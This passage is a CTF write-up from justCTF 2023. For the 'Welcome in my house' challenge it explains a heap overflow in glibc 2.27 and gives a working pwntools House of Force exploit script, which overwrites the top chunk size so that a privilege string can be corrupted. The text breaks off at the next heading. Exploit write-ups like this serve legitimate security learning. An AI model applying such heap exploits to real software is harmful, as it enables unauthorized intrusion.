 ```yaml
---
layout: post
title:  "justCTF 2023"
---
```

Last weekend I participated with [ARESx](https://twitter.com/ARESxCTF) in [justCTF](https://2023.justctf.team/) organized by justCatTheFish. This is a writeup of the challenges I solved: [Welcome in my house](#my-house-sec), [nucleus](#nucleus-sec), [notabug (unintended)](#not-a-bug-sec) and [Mystery locker](#mystery-locker-sec).

The full exploit codes and challenge files can be found in my [repository](https://github.com/Ollrogge/CtfWriteups).

<h2 id="my-house-sec">Welcome in my house</h2>
![Challenge menu](/assets/justctf2023-1.png)

Welcome in my house was a heap pwn challenge. We can create users which consist of a username, a password and disk space. All three values are allocated on the heap. There are no bounds checks for username or password so we can arbitrary overflow the heap. For the disk space we have control over the allocated chunk size and can therefore allocate arbitrary big chunks. Furthermore, there is an option to read the flag. To read the flag we need to corrupt a chunk on the heap which contains the string "admin" and change it to "root". Glibc is version 2.27.

Based on the name of the challenge and the fact that we have an arbitrary heap overflow and can allocate arbitrary big chunks, [House of force](https://github.com/shellphish/how2heap/blob/master/glibc_2.27/house_of_force.c) seemed like a good choice. For this we cause the top chunk to wrap around by allocating a very big chunk such that the next allocation overlaps with the chunk we want to corrupt.

### Exploit
```python
def create_user(name, pw, space):
    io.sendlineafter(">>", str(1))
    io.sendlineafter("name:", name)
    io.sendlineafter("word:", pw)
    io.sendlineafter("space:", str(space))

io = start(argv, env=env)

payload1 = b"A"*0x10

root = b"root\x00".ljust(0x8, b'\x00')

payload2 = b"root\x00"
payload2 = payload2.ljust(0x10, b'\x00')
payload2 += p64(0x0)
# corrupt size of top chunk to be very big
payload2 += p64(0xffffffffffffffff)

# allocate a very big chunk which will cause the top chunk to wrap around and
# corrupt chunk containing the string "admin" to "root"
create_user(payload1, payload2, 0xffffffffffffff60)

io.interactive()
```
<h2 id="nucleus-sec">Nucleus</h2>